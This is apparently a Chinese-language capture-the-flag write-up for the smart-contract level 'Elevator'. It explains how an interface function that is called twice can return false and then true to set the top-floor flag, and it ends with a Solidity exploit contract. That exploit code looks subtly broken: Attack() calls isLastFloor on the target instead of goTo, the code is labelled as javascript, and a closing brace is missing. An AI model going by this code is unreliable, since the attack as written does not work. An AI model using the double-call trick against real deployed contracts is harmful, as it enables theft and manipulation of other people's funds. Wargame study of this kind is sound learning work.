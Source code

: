 # 第十一关：Elevator

## 1. 题目要求
`电梯不会让你达到大楼顶部, 对吧? `

## 2. 代码功能解读
```
Building是一个合约接口，在Elevator合约中实现了对他的调用
Elevator
	1. goTo(uint _floor)方法中，调用者要实现isLastFloor(uint)方法，并根据方法的返回值来判断是否达到顶楼。
```


## 3. 漏洞分析
```
到达顶楼就是让top的值为true。
	查看goTo方法逻辑，isLastFloor返回为false才会进入，进入后再次调用isLastFloor来设置top的值，那么我们让第一次方法返回false，第二次返回true，就可以成功实现到达顶楼。
```

## 4. 攻击方法
``` javascript
contract Exploit {

  Building build;

  bool flag = false;

  constructor(address addr) {

    build = Building(addr);

  }

  

  function Attack(uint number) public {

    build.isLastFloor(number);

  }

  

  function isLastFloor(uint) external returns (bool){

    if(!flag){

      flag = true;

      return false;

    }else {

      flag = false;

      return true;

    }

  }
```